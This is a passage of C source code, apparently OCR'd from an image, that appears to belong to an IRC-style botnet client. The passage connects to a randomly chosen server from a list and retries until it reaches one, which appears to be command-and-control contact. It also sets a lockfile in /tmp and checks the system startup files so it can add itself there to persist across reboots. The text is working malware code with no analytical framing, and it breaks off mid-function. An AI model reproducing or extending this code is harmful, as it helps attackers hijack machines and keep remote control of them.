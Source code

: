     flag = 1;
    if (changeservers == 0) server = servers[rand() % numservers];
    changeservers = 0;
    while ((sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP)) < 0);
    if (inet_addr(server) == 0 || inet_addr(server) == -1) {
        if ((hp = gethostbyname(server)) == NULL) {
            server = NULL;
            close(sock);
            goto start;
        }
        bcopy((char*) hp->h_addr, (char*) &srv.sin_addr, hp->h_length);
    } else srv.sin_addr.s_addr = inet_addr(server);
    srv.sin_family = AF_INET;
    srv.sin_port = htons(PORT);
    ioctl(sock, FIONBIO, &flag);
    start = time(NULL);
    while (time(NULL) - start < 10) {
        errno = 0;
        if (connect(sock, (struct sockaddr *) &srv, sizeof (srv)) == 0 || errno == EISCONN) {
            setsockopt(sock, SOL_SOCKET, SO_LINGER, 0, 0);
            setsockopt(sock, SOL_SOCKET, SO_REUSEADDR, 0, 0);
            setsockopt(sock, SOL_SOCKET, SO_KEEPALIVE, 0, 0);
            return;
        }
        if (!(errno == EINPROGRESS || errno == EALREADY)) break;
        sleep(1);
    }
    server = NULL;
    close(sock);
    goto start;
}

int lockfile() {
    int pid_file = open("/tmp/tan.pid", O_CREAT | O_RDWR, 0666);
    int rc = flock(pid_file, LOCK_EX | LOCK_NB);
    if (rc && EWOULDBLOCK == errno) {
        printf("Lockfile found. Exiting.");
        exit(0);
    }
}

int main(int argc, char **argv) {
    lockfile();
    int on, i;
    char cwd[256], *str;
    FILE *file;
#ifdef STARTUP
    str = "/etc/rc.d/rc.local";
    file = fopen(str, "r");
    if (file == NULL) {
        str = "/etc/rc.conf";
        file = fopen(str, "r");
    }
    if (file != NULL) {
        char outfile[256], buf[1024];
        int i = strlen(argv[0]), d = 0;
        getcwd(cwd, 256);
        if (strcmp(cwd, "/")) {
            while (argv[0][i] != '/') i--;
            sprintf(outfile, "\"%s%s\"\n", cwd, argv[0] + i);
            while (!feof(file)) {
                fgets(buf, 1024, file);
                if (!strcasecmp(buf, outfile)) d++;
            }